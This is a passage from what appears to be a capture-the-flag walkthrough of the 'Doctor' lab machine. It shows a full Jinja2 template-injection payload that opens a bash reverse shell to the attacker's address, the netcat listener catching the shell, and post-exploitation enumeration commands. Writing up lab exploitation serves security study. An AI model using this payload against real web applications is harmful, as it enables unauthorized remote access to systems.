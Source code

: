 After posting it, visit the /archive page and view it in the HTTP history tab in BURP:

![](<../../.gitbook/assets/18 (1).JPG>)

That works. Let's start a listener and post the following payload to get a reverse shell:

```
{{config.__class__.__init__.__globals__['os'].popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"').read()}}
```

Visit or refresh the /archive page to trigger the payload:

```
└─$ sudo nc -nvlp 443               
[sudo] password for kali: 
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.209.
Ncat: Connection from 10.10.10.209:45342.
bash: cannot set terminal process group (813): Inappropriate ioctl for device
bash: no job control in this shell
web@doctor:~$ id
id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
web@doctor:~$ 
```

## Enumeration as "web"

Let's gather some basic system information:

```
web@doctor:~$ uname -a; cat /etc/*-release; netstat -antp;id
uname -a; cat /etc/*-release; netstat -antp;id
Linux doctor 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04 LTS"
NAME="Ubuntu"
VERSION="20.04 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal
```